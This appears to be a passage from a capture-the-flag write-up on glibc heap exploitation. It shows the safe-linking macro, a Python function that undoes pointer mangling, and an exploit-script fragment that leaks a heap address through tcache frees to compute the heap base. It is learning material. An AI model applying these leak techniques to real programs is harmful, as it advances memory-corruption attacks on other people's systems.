 Alright, with the libc leak we can now refer to many gadgets and functions with ease. But we still need more. It’s a safe bet to also grab a heap leak, but due to safe linking, the pointers are obfuscated:

```cpp
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
#define REVEAL_PTR(ptr)  PROTECT_PTR (&ptr, ptr)
```

When a block is freed and ends up in one of the faster lists of malloc, it mangles them with the _position_ that it is stored in.

There’s a couple ways to get a leak, but I followed [this writeup](https://ctftime.org/writeup/34804) from AeroCTF. If both allocations are in the same page (4096 bytes), then the first 12 bits of `pos` are 0, since the position is shifted by 12. We can deobfuscate a heap ptr independently using the following function:

```py
def deobfuscate(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val
```

This will just give us a heap base address from any leak. There was probably an [easier method](https://ret2school.github.io/post/catastrophe/), but I’m learning as I go.

With that, I was doing some testing so there are unnecessary allocs and frees here (but I’m too afraid to change the script due to offsets)

```py
#Grab some blocks
alloc(0,128,'A')
alloc(1,128,'A')
alloc(2,128,'A') #excess
alloc(3,128,'A') #excess
# Place them into the tcache
free(0)
free(1)
free(2)
show(0)
show(1)
#This printed out a heap address
addr = show(2)
free(3)
#Parse, deobfuscate, and set heap base.
addr = int(addr[5::-1].hex(),16)
heap_leak = deobfuscate(addr)
# seccomp actually alloc'd over a page of memory,
# so base was -0x1000 from what I got.
heap = (heap_leak >> 12 << 12) - 0x1000
```
